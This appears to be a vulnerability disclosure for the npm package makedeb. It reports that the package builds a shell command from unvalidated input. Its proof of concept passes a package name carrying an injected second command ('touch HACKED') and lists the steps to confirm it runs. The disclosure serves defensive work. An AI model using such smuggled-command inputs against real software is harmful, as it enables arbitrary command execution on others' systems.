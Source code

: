 # :bug: Description

The `makedeb` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var makedeb = require('makedeb');
makedeb({ packageName: 'sample; touch HACKED; #', version: '1.2.3', 'buildDir':'.', 'installPath':process.cwd()});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i makedeb # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created

